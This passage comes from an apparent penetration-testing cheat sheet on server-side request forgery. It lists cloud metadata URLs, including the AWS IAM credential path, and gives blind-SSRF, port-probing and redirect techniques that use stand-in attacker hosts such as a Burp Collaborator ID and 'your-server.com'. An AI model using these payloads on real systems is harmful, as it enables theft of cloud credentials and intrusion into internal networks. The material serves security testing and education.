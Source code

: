   - **Against cloud metadata services**
    - AWS metadata service
      - Basic access: `http://169.254.169.254/latest/meta-data/`
      - IAM credentials: `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
      - User data: `http://169.254.169.254/latest/user-data/`
      - IMDSv2 (requires token): 
        ```
        # First request to get token
        GET http://169.254.169.254/latest/api/token
        X-aws-ec2-metadata-token-ttl-seconds: 21600

        # Then use token for metadata access
        GET http://169.254.169.254/latest/meta-data/
        X-aws-ec2-metadata-token: TOKEN_VALUE
        ```
    - Azure metadata service
      - Basic access: `http://169.254.169.254/metadata/instance?api-version=2021-02-01`
      - With required header: `Metadata: true`
    - Google Cloud metadata service
      - Basic access: `http://metadata.google.internal/computeMetadata/v1/`
      - With required header: `Metadata-Flavor: Google`
    - DigitalOcean metadata service
      - Basic access: `http://169.254.169.254/metadata/v1/`
    - Other cloud providers have similar endpoints

  - **Against external services**
    - Third-party APIs
    - Website content
    - Public services that might trust the server's IP

- **SSRF detection techniques**

  - **Testing for regular SSRF**
    - Replace URLs in request parameters with localhost or internal IPs
    - Check if response contains content from the internal service
    - Look for changes in response timing
    - Test for error messages revealing connection attempts

  - **Testing for blind SSRF**
    - Use an external server you control (like Burp Collaborator)
    - Replace URLs with your server URL and monitor for incoming connections
    - Example: `http://YOUR-COLLABORATOR-ID.burpcollaborator.net`
    - Look for DNS lookups and HTTP requests
    - Use unique subdomains per test to track where connections come from
    - Add time delays using services that take time to respond
    - Example: `http://10.0.0.1:11211` (checking if Memcached port is open via response timing)

  - **Testing SSRF via redirects**
    - Set up an open redirect on a domain you control
    - Point the application to your domain, which redirects to internal targets
    - Example: `https://your-server.com/redirect?url=http://internal-service/`
